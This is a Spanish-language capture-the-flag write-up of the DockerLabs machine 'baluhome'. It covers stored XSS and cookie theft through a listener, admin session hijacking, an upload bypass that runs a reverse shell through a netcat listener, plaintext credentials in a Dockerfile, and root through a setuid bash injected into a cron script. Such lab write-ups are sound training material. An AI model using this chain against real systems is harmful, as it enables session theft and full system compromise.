









# baluhome — Máquina DockerLabs

**Plataforma:** DockerLabs.es
**Dificultad:** Media
**Tipo:** Máquina Linux (Node.js / Express)
**Objetivo:** Obtener acceso como usuario y escalar a root
**Vulnerabilidad Clave:** XSS almacenado → robo de cookie de admin → subida maliciosa de archivo → RCE → credenciales en Dockerfile → escalada vía script de backup escribible por grupo
**Estado:** ✅ Completada

---

## Flujo de Ataque

```text
Nmap --> 3000/tcp (Node.js/Express) --> "BaluTube"
Registro + login --> subir video + subtítulos
XSS almacenado confirmado en campo de subtítulos
Payload de robo de cookies --> listener HTTP
Enlace enviado al admin vía chat --> cookie capturada
Cookie inyectada en DevTools --> sesión admin secuestrada
Subida de miniatura interceptada con Burp --> .jpg cambiado a .js
Reverse shell de revshells.com --> reproducir video --> shell www-data
Dockerfile --> credenciales balutin:123123
su balutin --> grupo "mantenimiento"
/opt/balutube-backup/backup.sh escribible por el grupo --> inyección de comando
Cron ejecuta como root --> bash -p --> root
```

---

## 1. Reconocimiento



```bash
ping -c 2 172.17.0.2
nmap -n -Pn -p- --min-rate 5000 -o scan 172.17.0.2
```

```text
3000/tcp open  ppp
```

```bash
nmap -n -Pn -p 3000 -sC -sV -o scanversions 172.17.0.2
```

```text
3000/tcp open  http    Node.js (Express middleware)
|_http-title: BaluTube
```

---

## 2. Reconocimiento Web



Registro + login habilitan: subir videos y enviar mensajes.

---

## 3. XSS Almacenado en Subtítulos



```html
<script>alert('XSS')</script>
```



---

## 4. Robo de Cookies (Cookie Hijacking)

```html

```

```bash
python3 -m http.server 4344
```



Confirmado como XSS **almacenado** (persiste al recargar).

---

## 5. Entregando el Payload al Admin



```text
GET /C?cookie=balutube.sid=s%3AxT557_hrz-ea1oPpIMQhInmaNs5W_nOi... HTTP/1.1
```

---

## 6. Secuestro de Sesión

```text
F12 --> Application --> Cookies --> editar "balutube.sid"
```



Sesión activa: **admin**.

---

## 7. De XSS a RCE — Subida de Miniatura Maliciosa

Reverse shell de Node.js generada en [revshells.com](https://www.revshells.com/), guardada como `.jpg`, interceptada con Burp Suite:



Extensión modificada a `.js`:



```bash
nc -lvnp 4343
```

Reproducir el video activa la ejecución:

```text
Connection received on 172.17.0.2 37096
uid=33(www-data) gid=33(www-data)
```

```bash
script /dev/null -c bash
```

---

## 8. Credenciales en Dockerfile

```text
balutin:123123
```

```bash
su balutin
```

---

## 9. Escalada de Privilegios

```bash
groups
# balutin mantenimiento
```

```bash
ls -la /opt/balutube-backup
```

```text
-rwxrwx--- root mantenimiento backup.sh
```

```bash
cat backup.sh
```

```text
# Propiedad root:mantenimiento, permisos 770: cualquier usuario del grupo
# "mantenimiento" puede modificar lo que root ejecuta cada minuto.
```

```bash
echo "chmod u+s /bin/bash" >> backup.sh
```

Esperar al cron, luego:

```bash
bash -p
```

```text
uid=1001(balutin) gid=1002(balutin) euid=0(root)
whoami
root
```

✅ Root obtenido — máquina completada.

---

## Por Qué Funciona

- El campo de subtítulos no sanitiza contenido HTML/JS, permitiendo XSS almacenado
- La cookie de sesión no tenía protecciones adicionales (`HttpOnly`) que impidieran su robo vía JavaScript
- La subida de archivos solo validaba la extensión, no el contenido real
- Un Dockerfile expuso credenciales del sistema en texto plano
- Un script ejecutado por root vía cron era escribible por un grupo no privilegiado

---

## Referencias

- [revshells.com — Generador de Reverse Shells](https://www.revshells.com/)
- [OWASP — Cross Site Scripting (XSS)](https://owasp.org/www-community/attacks/xss/)
